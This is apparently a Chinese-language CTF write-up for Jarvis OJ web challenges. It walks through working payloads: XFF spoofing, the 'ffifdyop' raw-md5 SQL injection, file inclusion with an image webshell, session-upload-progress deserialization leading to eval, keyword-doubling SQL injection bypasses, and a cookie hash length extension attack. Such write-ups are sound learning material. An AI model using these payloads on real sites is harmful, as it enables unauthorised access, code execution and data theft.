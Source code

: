 ##PORT51
key: curl
指定连接的端口为51
curl --local-host 51 url

##Localhost
xff: 127.0.0.1

##Login
Key:md5函数加密后的注入
随便输个密码查看响应头：
Hint:"select * from `admin` where password='".md5($pass,true)."'"
md5函数第二个参数是返回的值得显示方式，false是16进制字符串显示，true的话用16字节的正常二进制字符串显示
所以只要构造一个加密后为276f72....的就行了，对应的二进制字符'or.....
这里记一个：ffifdyop

##神盾局的秘密
查看源码，是一个base64加密的字符串，解密后看到是一个图片的地址，换成index.php，存在文件包含漏洞，再看shiled.php, 然后按要求构造一个类调用readfile()，读取pctf.php即可

##Simple Injection
Key:/**/代替空格
登录框，username存在盲注点。waf会过滤空格，换成/**/即可

##Easy Gallery
Key: 包含上传文件 script标签代替<??>
直接上传图片马上去，在index.php?page=存在包含漏洞，可以00截断，包含上传后的图片（地址可以在view.php找到），一句话用<script language='php'>echo 1;</script>代替<?php ?>,<??>被过滤了。

##PHPINFO
Key: Session序列化handler不同导致对象注入 Session upload progress可以作为session的输入
 打开网页：
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }
    
    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('index.php'));
}
?>
分析可知如果可以控制mdzz参数就可以任意执行代码。
ini_set('session.serialize_handler', 'php');

PHP 内置了多种处理器用于存取 $_SESSION 数据时会对数据进行序列化和反序列化，常用的有以下三种，对应三种不同的处理格式：
处理器对应的存储格式php键名 ＋ 竖线 ＋ 经过 serialize() 函数反序列处理的值php_binary键名的长度对应的 ASCII 字符 ＋ 键名 ＋ 经过 serialize() 函数反序列处理的值php_serialize 
 (php>=5.5.4)经过 serialize() 函数反序列处理的数组
在这里可以看到session序列化的handler被换成了php，意思就是只要传递正确的seriliaze字符串给session，session就会以php解析，也就是反序列化。但是现在的问题就是怎么传递session给服务器。在这里需要用到的就是session上传进度。
当 session.upload_progress.enabled INI 选项开启时(phpinfo() 中可以查看，这是一个很方便的开关，如果打开了，那么不同处理器漏洞就可以在开关打开的页面随意使用（知道 session.upload_progress.name）)，在一个上传处理中，在表单中添加一个与INI中设置的 session.upload_progress.name 
(在phpinfo()中可以查看，如果能够控制服务器端代码，不过这是废话，都能控制代码了，还有啥不能做的。。。。
<input type="hidden" name="<?php echo ini_get("session.upload_progress.name"); ?>" value="123" />这样写个表单也可以) 同名变量时，$_SESSION中就会添加一个保存上传信息的session值，它的session名是 INI 中定义的 session.upload_progress.prefix 加表单中的post的 session.upload_progress.name, 所以直接post
POST /?phpinfo HTTP/1.1
Host: web.jarvisoj.com:32784
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=bcas4dphcuust3dfuk8hqr6366
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------312061946619381
Content-Length: 465

-----------------------------312061946619381
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

123|O:5:"OowoO":1:{s:4:"mdzz";s:58:"highlight_file('Here_1s_7he_fl4g_buT_You_Cannot_see.php');";}
-----------------------------312061946619381
Content-Disposition: form-data; name="123"; filename="123.txt";
Content-Type: application/pdf

|O:5:"OowoO":1:{s:4:"mdzz";s:17:"echo 'firsttest';";}	


-----------------------------312061946619381--

这里要注意一下，system函数用不起了。先echo scandir(dirname(__FILE__)),再highlight_file即可
session upload progress的参数好像只能在第一个，在内容中加了一个|，这样上传上去后，因为在php.ini中设置的handler是php_seriliaze（通过phpinfo可以查看）, 所以会被储存成
a:1:{s:??:"PHP_SESSION_UPLOAD_PROGRESS";s:20:"|O:......;} 这样然后换成php处理器之后，把 | 前全部当成键名，后面反序列化成对象，成功创建一个实例，mdzz参数可控，可以执行任意代码。。


##In A Mess
Key: 双写绕过sql，/*1*/注释加内容绕过过滤
打开直接右键看源码，有一个index.phps，查看发现是index.php的源码
if(!$_GET['id'])
{
	header('Location: index.php?id=1');
	exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
	echo 'Hahahahahaha';
	return ;
}
$data = @file_get_contents($a,'r');
if($data=="1112 is a nice lab!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
	require("flag.txt");
}
else
{
	print "work harder!harder!harder!";
}
id参数需要==0，注意是==而不是===，==只要求数值相同即可，直接id='0'(0a)就行
a不能有.,所以在这里不能直接读文件。访问了下flag.txt是404，估计这里用a也读不出来什么鬼也没啥用。。
然后data是a文件读出来的内容，因为不知道服务器上的文件分布，所以这里多半不是要读一个文件，多半是利用url或者php伪协议，在这我用php://input，然后post '1112 is a nice lab!'(也可以直接读vps上的文件，ip用数字表示即可。) 
eregi函数遇到%00停止，可以让b=%0044444444,不过我是用.44444, 直接利用正则匹配就行了。
绕过后给了一个 
﻿Come ON!!! {/^HT2mCpcvOLf}， 看到有个/，估计就是目录，直接访问

进去后的页面index.php?id=1, 把id换一下，出来了查询语句, 多半是注入
试了一下select,union,from被过滤，/**/，空格被过滤，引号也过滤了
双写绕过关键词过滤，注释加上内容/*1*/,引号被过滤了，用16进制字符串绕过
payload:
?id=0/*1*/ununionion/*1*/seselectlect/*1*/1,2,table_name/*1*/frofromm/*1*/information_schema.tables/*1*/where/*1*/table_name=0x??????/*1*/limit/**/0,1#
?id=0/*1*/ununionion/*1*/seselectlect/*1*/1,2,context/*1*/frofromm/*1*/content#


##flag在管理员手里
Key：hash长度拓展攻击
这题一开始要找源码。。我没找到。直接百度发现时pctf的原题可以得到源码。不过也看到wp了。这里还是写一下自己的wp记录一下
源码如下：
<body>
    <?php
        $auth = false;
        $role = "guest";
        $salt =
        if (isset($_COOKIE["role"])) {
            $role = unserialize($_COOKIE["role"]);
            $hsh = $_COOKIE["hsh"];
            if ($role==="admin" && $hsh === md5($salt.strrev($_COOKIE["role"]))) {
                $auth = true;
            } else {
                $auth = false;
            }
        } else {
            $s = serialize($role);
            setcookie('role',$s);
            $hsh = md5($salt.strrev($s));
            setcookie('hsh',$hsh);
        }
        if ($auth) {
            echo "<h3>Welcome Admin. Your flag is
        } else {
            echo "<h3>Only Admin can see the flag!!</h3>";
        }
    ?>

可以看到最关键的是
 if ($role==="admin" && $hsh === md5($salt.strrev($_COOKIE["role"]))) {
     $auth = true;
  }
一开始得到的是  secret+;"tseug":5:s 的MD5值，那么可以算出 
secret + ;"tseug":5:s + padding + ;"nimda":5:s 的值，具体怎么算参考hash长度拓展攻击（这里这个字符串的reverse还是很重要的，有了reverse才可能解析出admin这个role，没有的话，append_str=admin但是解析的role还是guest）
所以只要让cookie['role']=s:5:"admin";+reverse(padding) + s:5:"guest";就可以了，这里要注意的是，php serialize函数只会从第一个字符开始识别序列化，在第一个序列化正常执行完后，后面的字符都被忽略了，所以这里序列化出来的role就是admin, 然后mac的认证因为已经算出来了值，直接放在hsh这个cookie里面就行了，这样两个认证都过了，得到flag
(hashpump弄了一会弄不起。。害得我只有自己去找了个MD5的实现自己写。。。获得新MD5的脚本。。。附上脚本免得掉了。。）






